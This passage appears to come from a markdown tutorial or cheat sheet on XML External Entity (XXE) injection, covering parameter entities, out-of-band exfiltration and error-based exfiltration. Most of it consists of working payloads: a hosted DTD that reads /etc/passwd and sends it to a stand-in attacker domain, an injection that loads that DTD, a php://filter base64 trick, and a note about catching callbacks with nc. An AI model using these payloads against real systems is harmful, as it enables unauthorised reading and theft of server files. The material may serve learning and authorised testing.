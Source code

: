       On your server you can use nc to listen on the port for incomming connection

#### XML Parameter Entities
They are special kind of Entities that can only be refferenced within DTD(inside <!DOCTYPE >)
They can be used to recive an Out-of-band reuests. These are specially useful when
using xxe inside the document is restricted.

* Example
  >  ```xml
  >  <!DOCTYPE foo [<!ENTITY % xxevar "xxe value">] %xxevar;>
  > ```
* The below example will alone issue a request to our domain
  > ```xml
  > <!DOCTYPE foo [ <!ENTITY % xxevar SYSTEM "http://ourexampledomain.com/" > %xxevar; ]>
  > 

#### Out-of-band Data Exfiltration
We know that XML parameter entities can be used in DTD we can use this feature to 
exfiltrate data easilt
* You need to host this file somewhere say (http://ourexampledomain.com/hack.dtd)
  > ```xml
  > <!ENTITY % file SYSTEM "file:///etc/passwd">
  > <!ENTITY % eval "<!ENTITY &#x25; request SYSTEM 'http://ourexampledomain.com/?q=%file;'>">
  > %eval;
  > %request;
  > ```

  > **Note:** We need to host this file externally because XML specification
  don't allow to use xml paramete entities in definition of other XML parameter
  entities unless they comes from some external source()?
The Above code does the following
- Load the contents of `/etc/passwd` in XML parameter entity `file` 
- Then it makes a special parameter entities `eval`
  > this `eval` entity  when called will create another parameter entity
- This new entity will include the contents from `file` entity as a HTTP GET parameter of a URL
- This newly created entity when called issues a request to the said URL.
- The contents of the file are sent to the URL as GET parameter


Now Inject the following inside the XML
  > ```xml
  > <?xml version="1.0" encoding="UTF-8"?>
  > <!DOCTYPE foo [<!ENTITY % xxe SYSTEM
  > "https://ourexampledomain.com/hack.dtd"> %xxe;]>
  > ```

- This will fetch dtd file from https://ourexampledomain.com/hack.dtd and execute it  

**Note:** Sometimes it's not possible to fetch multiline files as a get paramete
The following are some ways you can circumvent this behaviour
  - Try replacing the protocol with other protocols for example `ftp`,`git`,`gopher` etc
  - One other way is if the server supports `php` as protocol then we can use php filter
  to get a one line response from multiline files
    > php://filter/convert.base64-encode/resource=/etc/passwd
#### ERROR based exfiltration
If output of your injection isn't working and out of band request is not the option
you can try error based exfiltration a sample DTD is below
  > ```xml
  > <!ENTITY % file SYSTEM "file:///etc/passwd">
  > <!ENTITY % ell "<!ENTITY &#x25; error SYSTEM 'file:///e/%file;'>">
  > %ell;
  > %error;
  > ```
